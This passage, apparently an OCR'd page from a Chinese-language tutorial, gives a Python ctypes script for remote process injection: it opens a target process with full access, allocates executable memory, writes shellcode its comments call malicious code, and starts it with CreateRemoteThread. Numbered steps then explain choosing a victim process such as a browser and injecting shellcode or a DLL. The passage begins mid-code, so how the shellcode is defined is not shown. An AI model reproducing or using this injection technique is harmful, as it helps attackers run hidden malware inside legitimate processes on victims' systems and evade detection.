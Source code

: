 > 
> # 打开目标进程
> target_process = ctypes.windll.kernel32.OpenProcess(
>     ctypes.wintypes.DWORD(0x1F0FFF),  # 所需的权限，包括读取、写入和执行
>     ctypes.wintypes.BOOL(False),
>     ctypes.wintypes.DWORD(target_pid)
> )
> 
> if target_process:
>     # 在目标进程中分配内存以存放恶意代码
>     allocated_memory = ctypes.windll.kernel32.VirtualAllocEx(
>         target_process,
>         ctypes.c_void_p(0),
>         len(shellcode),
>         ctypes.c_uint(0x3000),  # 分配可读可写可执行的内存
>         ctypes.c_uint(0x40)  # 内存保护标志
>     )
> 
>     if allocated_memory:
>         # 将恶意代码写入目标进程中的分配内存
>         ctypes.windll.kernel32.WriteProcessMemory(
>             target_process,
>             allocated_memory,
>             shellcode,
>             len(shellcode),
>             ctypes.c_void_p(0)
>         )
> 
>         # 创建远程线程在目标进程中执行恶意代码
>         thread_id = ctypes.c_ulong(0)
>         ctypes.windll.kernel32.CreateRemoteThread(
>             target_process,
>             None,
>             ctypes.c_uint(0),
>             ctypes.cast(allocated_memory, ctypes.c_void_p),
>             ctypes.c_void_p(0),
>             ctypes.c_uint(0),
>             ctypes.byref(thread_id)
>         )
> 
>         print("[+] Code injected successfully!")
> 
>     else:
>         print("[-] Failed to allocate memory in target process")
> 
>     # 关闭目标进程句柄
>     ctypes.windll.kernel32.CloseHandle(target_process)
> 
> else:
>     print("[-] Failed to open target process")
> ```
>
> 在这个代码框架中，我们使用 `ctypes` 库调用了 Windows API 来打开目标进程、在其中分配内存、将恶意代码写入目标进程并在其地址空间中执行。请注意，这只是一个简单的示例，实际的代码注入可能涉及更复杂的技术和安全措施。
>
> **实际操作流程：**
>
> 1. **选择目标进程：**确定要向其注入恶意代码的目标进程。通常，这可能是一个运行在目标系统上的用户进程，比如浏览器、文本编辑器等。
>
> 2. **编写恶意代码：**编写要注入的恶意代码。这可能包括 Shellcode、远程加载的 DLL 或其他恶意操作的代码。
>
> 3. **获取目标进程的 PID：**确定目标进程的 PID，以便打开并向其中注入代码。
>
> 4. **执行代码注入：**使用合适的技术（如进程注入、DLL 注入等）将恶意代码注入到目标进程中，并确保其执行。